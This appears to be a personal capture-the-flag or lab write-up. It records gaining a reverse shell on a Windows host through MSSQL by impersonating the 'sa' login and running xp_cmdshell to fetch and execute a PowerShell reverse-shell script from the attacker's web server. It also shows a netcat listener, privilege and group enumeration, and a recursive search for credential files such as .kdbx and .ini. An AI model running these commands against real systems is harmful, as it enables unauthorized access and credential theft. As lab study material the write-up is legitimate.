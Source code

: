 After trying as many ways to get a reverse shell, the Powershell method Worked

Downloaded PS script from the link:https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1

And changed my ip and port
Then ran this query
```
EXECUTE AS LOGIN = 'sa'
EXECUTE xp_cmdshell 'powershell -c iex(iwr -usebasicparsing http://10.10.14.6/rev.ps1)'
```
![[Pasted image 20240621200530.png]]

Got Reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240621200613.png]]

**Don't forget to host python web server before running the query**
**And you have to enable xp_cmdshell every time after a query executed as sysadmin**

Will jump to Lateral Movement.....!


```
whoami /priv
```
![[Pasted image 20240621201244.png]]

```
net user
```
![[Pasted image 20240621201302.png]]

```
powershell
```
```
Get-LocalGroup
```
![[Pasted image 20240621201337.png]]

```
Get-LocalGroupMember DnsAdmins
```
![[Pasted image 20240621201427.png]]

C directory
![[Pasted image 20240621201518.png]]

```
Get-ChildItem -Path C:\Users -Include *.txt, *.log, *.kdbx, *.conf, *.ini -File -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20240621205734.png]]
There is an .ini file.
